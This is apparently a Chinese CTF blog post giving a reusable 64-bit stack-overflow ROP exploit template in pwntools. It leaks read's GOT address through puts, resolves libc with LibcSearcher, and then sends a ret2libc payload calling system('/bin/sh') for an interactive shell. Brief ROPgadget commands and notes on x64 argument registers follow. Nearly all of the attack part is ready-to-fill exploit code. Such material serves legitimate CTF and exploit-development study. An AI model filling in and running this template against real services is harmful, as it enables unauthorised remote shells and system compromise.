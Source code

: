 ```yaml
---
title: "64位栈溢出rop模板(无PIE)"
date: 2021-07-12T17:35:19+08:00
draft: false
---
```


# 		64位栈溢出rop模板（无PIE）

## exp模板

```python
#!usr/bin/env python
#coding=utf-8
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
#p = process("./")
p = remote("",)
elf = ELF("./")

read_got = elf.got['read']
puts_plt = elf.plt['puts']
main_addr = 
pop_rdi = 
#************泄露got*********
payload = b'a'*() + p64(pop_rdi) + p64(read_got)
payload+= p64(puts_plt) + p64(main_addr) 
#payload = payload.ljust(200,'b')
p.sendline( payload)
p.recvuntil('')
read_addr = u64(p.recvuntil('\x0a')[:-1].ljust(8, '\x00'))
print hex(read_addr)
#*****************************
#***********搜索libc，寻址*******
libc = LibcSearcher("read",read_addr)
offset = read_addr - libc.dump("read")
sys_addr = offset + libc.dump("system")
bin_sh_addr = offset + libc.dump("str_bin_sh")
#***************************
#************get shell************
payload1 = b'a'*(0x40+8) + p64(pop_rdi) + p64(bin_sh_addr) 
payload1+= p64(sys_addr) 
payload1 = payload1.ljust(200,'b')

p.sendline(payload1)

p.interactive()

```

## ROPgadget

ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
查找可存储寄存器的代码

 ROPgadget --binary rop --string "/bin/sh"
查找字符串

ROPgadget --binary rop  --only 'int'
查找有int 0x80的地址

## 64位传参

对于x64体系结构，如果函数参数不大于6个时，使用寄存器传参，对于函数参数大于6个的函数，前六个参数使用寄存器传递，后面的使用栈传递。参数传递的规律是固定的，即前6个参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，后面的依次从 “右向左” 放入栈中。
